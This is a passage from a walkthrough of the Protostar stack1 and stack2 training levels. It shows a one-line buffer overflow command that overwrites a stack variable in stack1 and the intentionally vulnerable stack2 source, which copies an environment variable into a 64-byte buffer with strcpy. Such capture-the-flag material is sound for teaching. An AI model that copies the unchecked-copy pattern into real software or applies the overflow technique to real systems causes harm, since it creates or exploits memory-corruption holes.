 ```c
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

>This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory. 
This level is at /opt/protostar/bin/stack1

!!! tip
    * If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
    * Protostar is little endian

```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c 'print("A"*64+"\x64\x63\x62\x61")')
you have correctly got the variable to the right value
```
!!! note
    * buffersize 64 bytes
    * we have to turn mix up bytes because of little endian

## stack2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
